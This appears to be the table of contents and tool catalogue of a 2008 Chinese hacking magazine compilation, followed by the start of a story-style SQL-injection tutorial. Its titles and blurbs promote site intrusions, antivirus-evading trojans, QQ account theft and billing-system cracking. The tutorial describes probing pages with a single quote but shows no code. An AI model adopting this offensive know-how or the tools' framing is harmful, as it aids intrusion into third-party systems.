# 黑客X档案合订本2008年（上）第一部分

---

# 《黑客X档案》畅销系列丛书：菜鸟 Hacker 进化最佳教程

## 2008《黑客X档案》合订本（上卷）

WWW.HACKERXFILES.NET  WWW.HACKERXFILES.NET

### 经典漏洞回顾

- 动网 8.1 最新注入漏洞来了
- 动网 8.1 之后台获取 WebShell 大法
- Discuz 6.0——从后台到 WebShell 的突破
- Dblog 最新远程溢出漏洞全接触
- 跟我学 MS08025 漏洞的利用
- 千疮之网——动网新漏洞再曝光
- Discuz 6.0.1 UC 最新漏洞大体验
- Dblog 4.6 文件下载漏洞简单利用
- 0day 之动网后台注入漏洞

### 主题乐园

- 让小菜都轻松成为网站的猎手
- 局域网 ARP 欺骗攻击终极解决方案
- 菜鸟的 Vmware Workstation 攻防测试平台教程
- 从后台到 WebShell
- 跨站挂马全攻略
- 个人电脑安全防范全攻略

## X 菜鸟学堂

- 网站入侵也简单（中）
- 网站入侵也简单（下）
- WebShell 大接触（上）
- WebShell 大接触（下）
- 跟我学服务器提权（下）
- 跟我学服务器提权（中）

### 精彩问答一览

- 让菜鸟都来“顶礼”网吧
- 菜鸟都来跟我学用 135 端口抓肉鸡
- 菜鸟中毒后的自救十四步
- 无限次来获取卡巴斯基激活码
- “艳照门”助我肉鸡成群
- 想攻就攻，我的地盘我做主
- 远程控制的新选择——DG 远控 2008
- Apache 扩展名解析漏洞简析
- 从零开始学碰撞系列

## 黑客 X 档案 2008 合订本

### 上卷

## 《黑客 X 案》2008 年合订本（上卷）

- 出品人：孙胜利
- 主编：杨冬柱
- 编辑部主任：丛林
- 编辑部：sagi / 朵呆虫 / 虫虫 / 咖啡 / 黄色潜水艇 / 笨牛牛
- 特约编辑：ww0830 / zj1244 / 阿布 / hackest / 姜超 / 孟方明 / Talent Feng
- 光盘部：战神 MARS
- 设计：谭海梅
- 排版：Bifrost
- 发行部总监：湛颖
- 联系电话：010-88561473
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币 32.00 元（光盘 + 手册）

**申明：**刊中所载文字及图片，版权所有，未经许可，不得转载，文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含转载此类费用。如有相关问题，请作者及时与我们联系。

## CONTENT

## 菜鸟学堂

- 2008.01 菜鸟师徒行——网站入侵也简单（中） …… 9
- 2008.02 菜鸟师徒行——网站入侵也简单（下） …… 15
- 2008.03 菜鸟师徒行——WebShell 大接触（上） …… 21
- 2008.04 菜鸟师徒行——WebShell 大接触（下） …… 27
- 2008.05 菜鸟师徒行——跟我学服务器提权（上） …… 33
- 2008.06 菜鸟师徒行——跟我学服务器提权（中） …… 39

### QQ 专题

- 2008.01 离线挂 Q 又一新法——梦网刷分挂 Q …… 47
- 2008.01 教你轻松迁移 BLOG 至 QQ 空间 …… 48
- 2008.01 只想对你说的秘密——QQ 日志加密 …… 48
- 2008.01 QQ 秀也爆最新漏洞 …… 49
- 2008.02 非 QQ 黄钻也来玩转空间域名 …… 50
- 2008.02 打造迷人的 QQ 尾巴链接 …… 50
- 2008.02 菜鸟搞定另类的 QQ 密码 …… 52
- 2008.02 让菜鸟都来分享我的 QQ 心得 …… 52
- 2008.03 菜菜们的 QQ 空间置密 …… 53
- 2008.03 QQ 游戏形象洗刷刷 …… 54
- 2008.03 挂 Q 宠，我时刻都行！ …… 55
- 2008.03 腾讯接招——QQ 音乐继续破 …… 56
- 2008.04 “红豆”与免费 QQ 秀 …… 56
- 2008.04 QQ 空间也克隆 …… 58
- 2008.04 菜鸟也来玩转 QQ 邮箱 …… 58
- 2008.04 远程视频嗅探器骗局大揭秘 …… 59
- 2008.05 QQ 密码也来本地破解 …… 60
- 2008.05 突破 QQ 新限制——再次利用视频攻击 …… 61
- 2008.05 QQ 密探帮你查好友 …… 62
- 2008.06 另类方式登录 QQ …… 63
- 2008.06 想盗 QQ 号跟我来 …… 64
- 2008.06 “爱心守护天使”送来 QQ 大礼 …… 67

## 网吧黑客

- 2008.01 网吧三剑客之玩转网吧 …… 68
- 2008.01 网吧里的“社会工程学” …… 69
- 2008.01 和我一起来破解金盘机房管理软件 …… 70
- 2008.01 iKeeper 的实战破解经验谈 …… 71
- 2008.02 让菜鸟都来“颠覆”网吧 …… 71
- 2008.02 三招送 Pubwin2007 上西天 …… 73
- 2008.02 小菜的 Pubwin EP 加钱之旅 …… 74
- 2008.03 要你代理没商量 …… 75
- 2008.02 不堪一击的网吧限制 …… 75
- 2008.03 “网络爸爸”你能奈我何？ …… 76
- 2008.03 新菜招突破了盛磁智能索引发的破解 …… 77
- 2008.04 看菜鸟来破解一卡通 …… 79
- 2008.03 冰点还原 6.X 之破解大全 …… 79
- 2008.04 是菜鸟就要免费 …… 81
- 2008.04 想攻就攻，我的地盘我做主 …… 82
- 2008.04 小菜来破解程序监控 …… 85
- 2008.05 网吧还原也很脆弱 …… 85
- 2008.05 巧破金盘电子阅览室机房管理系统 …… 86
- 2008.05 一元的午餐——PubWin2007 简单破 …… 87
- 2008.05 轻松突破雨人网络 E 卡通 …… 88
- 2008.06 CMD 下也来终结网吧收费系统 …… 89
- 2008.06 看我怎么搞定你，雨人网络 E 卡通 …… 90
- 2008.06 万象网管——要免费更要安全 …… 91
- 2008.06 Pubwinkiller——通杀 Pubwin 的利器！ …… 92

### 网游江湖

- 2008.04 教小菜在梦幻国度刷道具 …… 93

## 傻瓜黑客

- 2008.01 Realplay，迅雷一起上——0day 的乐趣 …… 94
- 2008.01 百度贴吧攻击战 …… 95
- 2008.01 菜鸟之“垃圾桶”里挖宝贝 …… 96
- 2008.01 X 文件锁真的安全吗？ …… 97
- 2008.01 解开高强度文件夹加密大师里的“秘密” …… 98
- 2008.01 轻松突破 ATA 考试认证系统的限制 …… 99
- 2008.01 敢怒吧！判死刑！——突破百度贴吧的封号限制 …… 100
- 2008.01 让你的 Remote Administrator 使用随开 …… 101
- 2008.01 菜鸟来搞定网络流氓广告 …… 102
- 2008.01 魔兽世界 VPN 软件破解全攻略 …… 103
- 2008.01 看我无限次刷卡巴 7.0 半年 Key …… 106
- 2008.01 教你几招保护好自己的 IM 密码 …… 107
- 2008.02 论坛乾坤大挪移 …… 108
- 2008.02 Google 也要打免费电话 …… 109
- 2008.02 轻轻松松获取电脑序列号 …… 110
- 2008.02 系统还原听我的 …… 111
- 2008.02 巧用蓝牙手机为电脑装上“无形锁” …… 112
- 2008.02 一网打尽网吧密码 …… 113
- 2008.02 让 XP 来享受 Vista 的 ReadyBoost 加速 …… 114
- 2008.02 菜鸟都来跟我学用 135 端口抓肉鸡 …… 115
- 2008.02 菜鸟建站也不难 …… 117
- 2008.02 看菜鸟如何伪装程序 …… 120
- 2008.03 无限次来获取卡巴斯基激活码 …… 121
- 2008.03 巧得六度 MP4 视频真实地址 …… 123
- 2008.03 PHP 环境一步来搞定 …… 124
- 2008.03 教你用 QuickBFC 编译批处理文件 …… 125
- 2008.03 撕破影子，还原系统 …… 127
- 2008.03 教小菜来强行占用内部 IP 地址 …… 127
- 2008.03 移动加密破破破 …… 128
- 2008.03 内网攻击之在线密码破解 …… 130
- 2008.03 菜鸟齐来认识 ImageX——欲葬 Ghost 的命？ …… 132
- 2008.03 小小逆向工程整美眉 …… 134
- 2008.04 主流相册批量下载 …… 136
- 2008.04 和我一起 DIY 机器狗 …… 137
- 2008.04 GHOST 真的安全吗？ …… 137
- 2008.04 触发 Windows 的愚人机关 …… 138
- 2008.04 WinRAR 挂马新体验 …… 139
- 2008.04 Vista 下的 IIS7 的安装与调试 …… 139
- 2008.04 番茄器挂号的艺术 …… 141
- 2008.04 让你的键盘不再成为“泄密之源” …… 143
- 2008.04 在局域网中轻松共享鼠标键盘 …… 145
- 2008.04 Autologon 让你自动登录 Vista …… 146
- 2008.04 替换放大镜，添加无敌 3389 账户 …… 147
- 2008.04 优酷、56、土豆等在线视频随意 down …… 148
- 2008.04 另类的 CMD 后门 …… 149
- 2008.05 火爆论坛轻松营造 …… 151
- 2008.05 Linkideo——又一 VPN 代理服务利器 …… 153
- 2008.05 突破 VISTA 登录，还有紫光输入法 …… 154
- 2008.05 电脑中的手机直播 …… 155
- 2008.05 自解压背后的注释 …… 155
- 2008.05 如何突破局域网封锁来玩网游 …… 156
- 2008.05 入侵技巧之 JavaScript 脚本 …… 157
- 2008.05 玩转卡巴 …… 158
- 2008.05 为邮件发送安装一个“暗哨” …… 159
- 2008.05 伪装友好的迅雷 …… 161
- 2008.05 另类 CC 防御 …… 161
- 2008.05 轻松掌控软件安装的“特权” …… 162
- 2008.06 ARP 欺骗攻防 …… 163
- 2008.06 Vista 的桌面也不安全 …… 164
- 2008.06 自由进出系统的“上帝之门” …… 165
- 2008.06 Google 对常见漏洞的辅助入侵 …… 166
- 2008.06 实用的内网上线方法 …… 167
- 2008.06 “蜜罐‘玩弄’渗透‘防盗网’”之续 …… 168
- 2008.06 突破校园网的共享上网限制 …… 169
- 2008.06 菜鸟来破网络验证 …… 170
- 2008.06 想发泄？“砸”了它！ …… 170
- 2008.06 局域网内最实惠的入侵做法 …… 171
- 2008.06 为 Discuz 论坛添加统计 …… 172
- 2008.06 小菜的考试秘籍 …… 173

## 骏马记

- 2008.01 小试国产新马 Fantasy …… 174
- 2008.01 网页后门免杀之 phpencode 篇 …… 175
- 2008.01 又写某免杀远控 SVIP2.03 …… 176
- 2008.02 绽放网络的“炽天使” …… 179
- 2008.02 “木偶”也来远程控制 …… 182
- 2008.02 通通透透免杀黑洞 1.96 …… 184
- 2008.02 纯手工免杀 PCSHARE …… 185
- 2008.03 “艳照门”助我肉鸡成群 …… 186
- 2008.03 三无驱动级木马 X-Door …… 188
- 2008.03 国产木马新选择——Ghost RAT …… 190
- 2008.03 上演过瑞星主动之旅 …… 191
- 2008.04 国外也有好木马——Turkojan …… 193
- 2008.04 菜鸟免杀之特征码定位——multiCCL …… 195
- 2008.04 又写又来玩免杀——免杀 RemoteABC 过瑞星卡巴 …… 197
- 2008.04 用 VBS 制作自解压免杀下载者 …… 199
- 2008.05 送给小菜的灰熊猫远程程序 …… 199
- 2008.05 教菜鸟免杀 Pcshare …… 201
- 2008.05 粘满鞋 + 逆向工程再次打造隐藏后门 …… 204
- 2008.05 木马帝国的远程控制软件 …… 206
- 2008.06 远程控制的新选择——DG 远控 2008 …… 208
- 2008.06 鸽子如何过主动防御与 360 安全卫士 …… 209
- 2008.06 小菜来教你使用黑鹰远控 …… 210
- 2008.06 教叉子 6 分钟免杀 DG 远控 …… 212

## 毒殇

- 2008.01 对阵奇怪的 AUTO 病毒 …… 214
- 2008.01 “新奇”病毒菜鸟遭遇战 …… 217
- 2008.02 全面绞杀 U 盘病毒 …… 219
- 2008.02 菜鸟手工杀毒通用大法 …… 220
- 2008.03 菜鸟除马计 …… 222
- 2008.03 揭秘 360 安全卫士查杀流氓软件的原理 …… 223
- 2008.04 看我来清除“极速还原”中的流氓插件 …… 224
- 2008.04 令人抓狂的 chm!jf 病毒 …… 225
- 2008.05 和我一起认识最近的流行病毒 …… 228
- 2008.05 和病毒战斗到底 …… 229
- 2008.06 三招玩转清除 Rootkit …… 233
- 2008.06 与新型 QQ 木马的较量 …… 234

## 侠隐仙踪

- 2008.01 我的失忆女友（二） …… 236
- 2008.02 我的失忆女友（三） …… 238
- 2008.03 我的失忆女友（四） …… 240
- 2008.04 杀爱 …… 243
- 2008.05 鬼网超生（二）初遇电脑里的女鬼 …… 246
- 2008.06 鬼网超生（三）诡异的女房东 …… 248

### 一个人的战争

- 2008.01 SA 权限灵活入侵踩我来 …… 251
- 2008.01 用社会工程学渗透某大型信息港 …… 252
- 2008.01 对已知漏洞的一次合理利用 …… 255
- 2008.01 韩国游戏交易网站的恶梦 …… 256
- 2008.01 嗅探入侵和雨的世界 …… 258
- 2008.01 跟小菜一起来检测黑客防线网站 …… 262
- 2008.01 畅游某名牌大学教务处 …… 264
- 2008.02 动网 8.1 最新注入漏洞来了 …… 267
- 2008.02 动网 8.1 之后台获取 WebShell 大法 …… 269
- 2008.02 KingCMS 0day 漏洞之菜鸟体验 …… 270
- 2008.02 和我一起进行 php 渗透 …… 272
- 2008.02 小菜巧遇电信网站漏洞之后 …… 275
- 2008.02 Discuz 6.0——从后台到 WebShell 的突破 …… 277
- 2008.02 新云新闻迎新年——新云网站内容管理系统 XSS 漏洞利用详解 …… 280
- 2008.03 DJ！看我怎么入侵你 …… 283
- 2008.03 跟我一起来检测某知名信息服务公司网站 …… 286
- 2008.03 利用列目录漏洞来突破讯时新闻系统 …… 289
- 2008.03 菜鸟来畅游房地产网 …… 290
- 2008.03 智菜鸟渗透清华同方网站 …… 292
- 2008.03 数据库密码漏洞来批量获取 WebShell …… 296
- 2008.03 不是旁注的旁注 …… 297
- 2008.03 0day 之动网后台注入漏洞 …… 299
- 2008.04 千疮之网——动网又出新漏洞 …… 301
- 2008.04 phpcms 漏洞利用全过程 …… 302
- 2008.04 DedeCms V4.0 注入漏洞公布 …… 304
- 2008.04 提权，别忘了 Serv-U 6.X 通杀漏洞 …… 305
- 2008.04 社工进入金山社区内部 …… 306
- 2008.04 漏洞除了发现，还可以“创造”——从构造注入点到差异备份提权 …… 309
- 2008.04 当神话不再是一个神话——彻彻底底入侵台湾神话官方网站 …… 311
- 2008.04 入侵政府网站之另类提权 …… 313
- 2008.05 Discuz 6.0.1 UC 最新漏洞大体验 …… 315
- 2008.05 Dblog 4.6 文件下载漏洞简单利用 …… 318
- 2008.05 菜鸟入侵初体验 …… 319
- 2008.05 ASP.NET 来入侵台湾站点 …… 320
- 2008.05 榨干 WebShell 中的最后一滴血 …… 323
- 2008.05 从别人的后门到自己的 WebShell …… 325
- 2008.05 入侵 Linux 台湾网站全过程 …… 326
- 2008.06 Dblog 最新远程注入漏洞全接触 …… 329
- 2008.06 跟我学 MS08025 漏洞的利用 …… 331
- 2008.06 彻底击垮某通用企业建站系统 …… 333
- 2008.06 和我一起来入侵法国网站 …… 336
- 2008.06 简简单单来玩 SMSJ V8.0 最新漏洞 …… 337
- 2008.06 我是如何入侵红旗 Linux 网站的 …… 339
- 2008.06 菜鸟入侵之 winWebmail 和 dvbbs asp.net …… 342

### 安全续

- 2008.01 移形换影——让木马无计可施 …… 345
- 2008.01 看小菜的零工具 U 盘防毒方法——NTFS 权限的应用 + 批处理 …… 345
- 2008.01 我的 USB 端口我作主——为 USB 端口装上“加密锁” …… 347
- 2008.02 菜鸟中毒后的自救十四步 …… 350
- 2008.02 保护杀毒软件的使者 …… 352
- 2008.02 让微点主动防御来保护我们的电脑 …… 352
- 2008.03 棒打“机器狗” …… 355
- 2008.03 绝手工保护光盘数据 …… 357
- 2008.03 假进程“玩”死天龙八部盗号病毒 …… 358
- 2008.04 间谍软件克星——HijackFree …… 359
- 2008.04 维护系统我用 Windows PE …… 360
- 2008.04 菜鸟 DIY 保护自己的秘密文件 …… 363
- 2008.05 局域网的安全嗅探专家 PromqryUI …… 364
- 2008.05 让 DefenseWall 把我们的系统变安全 …… 365
- 2008.05 Linux 安全点滴——我让 ROOT 也下岗 …… 367
- 2008.06 四步打造超级安全电脑 …… 368
- 2008.06 带安全模式的安全利器——GMER …… 370

## CONTENT

- 2008.06 Linux 安全点滴之再谈 ROOT 地下工作 …… 372

## 黑客研究院

- 2008.01 移花接木——JAVASCRIPT 打造完美 QQ 钓鱼程序 …… 374
- 2008.01 Apache 扩展名解析漏洞简介 …… 375
- 2008.02 如何利用 Cookie 来防盗链 …… 376
- 2008.02 让端口复用来洞穿内网 …… 378
- 2008.03 关于缓冲区溢出的介绍和简单应用 …… 380
- 2008.03 对粘滞键后门的一些想法 …… 383
- 2008.04 我是如何拿到目标服务器上的敏感文件的 …… 384
- 2008.04 注入也玩“特征码” …… 386
- 2008.05 惯性点击助你轻松实现服务器提权 …… 386
- 2008.05 菜鸟详解 ADSL 密码盗取工具制作过程 …… 388
- 2008.06 浅谈 IIS 下鲜为人知的扩展——shtml …… 390
- 2008.06 跟我学 SAM 欺骗 …… 392

## 补益园

- 2008.01 从零开始学破解之（十六）神秘的“伪破解” …… 395
- 2008.01 菜鸟来制作完美国际双开补丁 …… 398
- 2008.02 从零开始学破解之（十七）神秘的注册码 …… 399
- 2008.02 教你制作完美单机补丁 …… 403
- 2008.03 让“雨过天晴”无限用 …… 404
- 2008.03 从零开始学破解之（十八）重启验证型软件的破解 …… 406
- 2008.04 从零开始学破解之（十九）破解软件的防线之“自效验” …… 410
- 2008.04 菜鸟来和我 Crack 移动加密 …… 413
- 2008.05 从零开始学破解之（二十）SMC 破解大法 …… 414
- 2008.05 软硬通吃之破解 EasyCapture 2.0 …… 418
- 2008.06 从零开始学破解之（二十一）把软件变成注册机 …… 420
- 2008.06 手工来脱壳 ASProtect 2.3 SKE …… 423

### 黑客编程

- 2008.01 易语言之木马武装 …… 426
- 2008.01 短信炸弹 DIY …… 427
- 2008.01 VB 下的一句话 EXE 木马 …… 429
- 2008.02 30 秒搞定 E 语言打造端口扫描工具 …… 430
- 2008.02 盗 Q 新招——浅析 QQ 音速盗号木马 …… 431
- 2008.03 重磅！程序自启动的新思路——揭秘 Office 插件的制作全过程 …… 434
- 2008.03 低调的屏幕键盘后门 …… 436
- 2008.03 菜鸟也来做 QQ 炸弹 …… 437
- 2008.04 百度空间互踩机——让我们的人气步步高 …… 438
- 2008.04 Delphi 下浅析 U 盘病毒的原理 …… 440
- 2008.05 Delphi 之教你编写好驴价 …… 441
- 2008.05 下载者服务器配置的三种方法 …… 444
- 2008.06 反弹木马编写之反弹上线和简单控制篇 …… 446
- 2008.06 教你编写“响一声就挂”攻击器 …… 450

### 互逸乐园

- 2008.01 局域网 ARP 欺骗攻击终极解决方案 …… 453
- 2008.02 菜鸟的 VMware Workstation 攻防测试平台教程 …… 457
- 2008.03 从后台到 WEBSHELL …… 460
- 2008.04 让小菜都轻松成为网站的猎手 …… 463
- 2008.05 跨站挂马全攻略 …… 467
- 2008.06 个人电脑安全防范全攻略 …… 471

### 疯狂话题

- 2008 呆呆虫问吧 …… 476

### 绿色资料

**帐号守护者 V2.20：**  
采用原创的独特技术，使所有键盘记录程序失效，从而实时保护您的帐号密码信息。

**RouterOS：**  
是一种路由操作系统，可以通过该系统软件将标准的 PC 做成专用的路由器。RouterOS 经历了多次更新和改进，它的功能在不断增强和完善。

**Keyfinder Thing 3.1.6：**  
一款简单的应用工具，可以重新获得安装到你的系统中 Microsoft、Macromedia 等软件的序列号或者 CD Key。

**微点主动防御软件：**  
主动防杀 99% 以上新病毒，开创病毒免疫时代；无需扫描、不依赖升级，简单易用，安全省心；资源占用低。

**FastCopy：**  
Windows 平台上最快的文件拷贝、删除软件。由于其功能强劲，性能优越，一时间便超越相同类型的所有其他软件。

**WinISO：**  
一个 CD-ROM 映像文件格式转换工具，并且可以直接编辑光盘映像文件！它可以处理几乎所有的 CD-ROM 映像文件，包括 ISO 和 BIN。

**ImageX：**  
可以将任何文件转换为一幅图片，这样别人看到的就只是一幅图片，只有你使用本软件才能察看实际内容并将实际文件从图片中解出来。

**Turkojan 4.0：**  
土耳其远程控制 Turkojan 4.0，功能选项有反向连接、Remote 桌面、Remote 密码、MSN 远探大、Remote 壳、Web-Site 阻拦与服务器 Chat 等。

**Hide Window Plus：**  
可以让你通过一组键盘快捷键或鼠标右键单击关闭按钮，快速隐藏当前屏幕与任务栏中的任意窗口以及系统托盘图标，也可通过快捷键恢复先前隐藏的窗口。

**a-squared HiJackFree 3.1：**  
一款优秀的系统分析软件，可帮助发现系统内的黑客工具、间谍软件、木马和蠕虫病毒。能移动和设置自动运行程序，显示多种自动运行位置与启动项。

**屏蔽迅雷自动上传工具：**  
你开着迅雷，不管下载列表是否有文件（是否已被删除），迅雷都可能自动发现可上传文件；该工具可节省系统资源，防止迅雷偷偷上传资源。

**灰熊猫远程控制：**  
该远控体积小、以实用功能为主，保持了灰鸽子一样的高稳定性；无上线主机数量限制，采用 Delphi 开发，隐蔽性强，可突破主动防御和防火墙。

**EmailObserver：**  
这是电子邮件监控程序和监视工具，你能够使用它决定电子邮件消息的确切目录，并抄袭所有发出的电子邮件。

**DefenseWall：**  
在你浏览互联网时保护你免受恶意软件（间谍软件、广告、键盘记录工具以及上传的恶意脚本）入侵电脑，最大限度保护预防恶意软件。

**《黑客X档案》PubwinKiller：**  
作者“cockerel”在与 Pubwin 的斗争和较量中积累经验，制作了独家工具——《黑客X档案》PubwinKiller。

**Super X Desktop：**  
一款优秀的桌面管理工具，可让用户在一台计算机上运行多达 100 个虚拟桌面（缺省 10 个），通过 Ctrl+数字 快捷切换。

**Orbit Downloader 2.6.5：**  
一款下载加速器，采用 P2P 提高下载速度，并可在一定程度防止死链接；支持 P2SP，速度可选，用户可自行决定启用或关闭 P2P 功能。

**小鬼当差 V1.0：**  
灰鸽子工作室制作的防火墙，体积小巧，无需安装即可使用的绿色软件，目前完全免费。

**fint2005：**  
一款小巧绿色木马辅助查找器，功能有：端口进程关联信息、共享管理、注册表启动项管理、常见几个关联文件查看、网络设备发送/接收流量显示、自动扫描可疑进程等。

**QuickMail：**  
支持多用户、多帐号的 EMAIL 客户端。

**钛金进程防火墙：**  
专门用于对付查杀软件和网络防火墙不查杀或漏查漏杀的木马、蠕虫、病毒以及流氓软件的防火墙，是电脑安全的最后一道关卡。

**PromqryUI：**  
有“局域网反窃听专家”之称的软件，可实时检测本机或若干 IP 段的网络传输状况；一旦发现网络状况过度混乱会弹出警告，提醒用户注意防范。

**世界之窗浏览器 V2.1 Final：**  
有效提高上网效率，功能丰富，自定义使用习惯；安全可靠，可屏蔽广告与插件干扰，节省带宽和电脑资源。

**Input Director：**  
一个 Windows 程序，使你通过连接在一台计算机上的一套键盘鼠标，控制多套 Windows 系统，适合多机切换用户。

**WinRAR 变形金刚：**  
让制作的 WinRAR 自释放文件不被 WINRAR 检测，制作“永久免杀”捆绑效果；高度整合 WINRAR，可自由安装和卸载。

**QQ 聊天集中轰炸机飘云版：**  
打开要发送消息的聊天群或好友聊天窗口后可快速轰炸；提示“害人之心不可有”，请谨慎使用。

**multiCCL：**  
特征码定位工具，比 myccl 定位更精确。

**ProcessViewer：**  
可查看当前系统中正在运行的所有进程，并查看某个进程使用的模块、线程及内存使用情况，还能强行终止进程运行。

**QQ 好友密探：**  
可分析你的好友中谁已将你从其好友中删除；不同显示含义对应“你是对方好友”或“你不是 Ta 的好友”。

**大仙QQ视频攻击器：**  
可不停向对方发起视频请求，迫使对方下线。文中称由文字式 QQ 攻击演变为视频攻击，依赖自动点击与自动取消循环。

**PubWin2007 伪装破解精灵：**  
软件可“断开”PUBWIN2007 系统，支持伪装 PUBWIN 系统与伪装卡号、上机时间、解除禁止、退出 PUBWIN_EP、注销 EP 等功能。

## 菜鸟师徒行

### 网络入侵四道题（中）

阿布（高五杰）



“铃……”下课铃声响起了，阿布收拾起东西准备回宿舍，走出教学楼的那个瞬间突然感受到一阵寒风刺骨……（叙事内容）

最近感冒的人非常多，前几天下了雪，这两天又狂降温……阿布担心燕MM是否也像自己这样忘记了增减衣服。（叙事内容）

阿布回到宿舍打开QQ，在群消息轰炸中寻找燕MM留言，终于看到对方回复，语气里既关心又调侃，情节继续推进。（叙事内容）

“师傅，最近天气冷了，你要注意身体知道吗……”阿布看到后很感动，回消息打趣对方。随后两人聊天转入技术话题。（叙事内容）

阿布问：“今天咱们讲什么呢？”燕MM说“什么？狗肉？讲猪肉？”阿布纠正为“注入，注入的注，注入的人！”两人的课题便正式开始。

### SQL注入小知识

随着 B/S 模式应用开发的发展，程序页越来越多，但由于开发经验差异，不少程序员在编写代码时未对用户输入做严格合法性判断，导致安全隐患。用户可提交数据库查询代码并根据程序返回结果获取本不应得到的数据，这就是 SQL Injection，即 SQL 注入。

### 小知识：什么是B/S结构

B/S（Browser/Server）结构即浏览器/服务器结构，是随着 Internet 技术兴起而形成的结构形式。用户界面主要通过 WWW 浏览器实现，事务逻辑主要在服务器端实现，形成三层（3-tier）结构，可减轻客户端负荷并降低维护升级成本（TCO）。

SQL 注入属于 WWW 端口的正常访问流量，表面与普通页面访问差别不大，一般防火墙不一定报警；若管理员不关注 IIS 日志，入侵可能长期难以察觉。

SQL 注入漏洞是应用最广泛的网站入侵方法之一。判断页面是否存在 SQL 注入时，可在地址后添加单引号观察返回信息：可能报错、也可能页面异常（如内容变空白），与正常页面不一致即值得怀疑。



图1

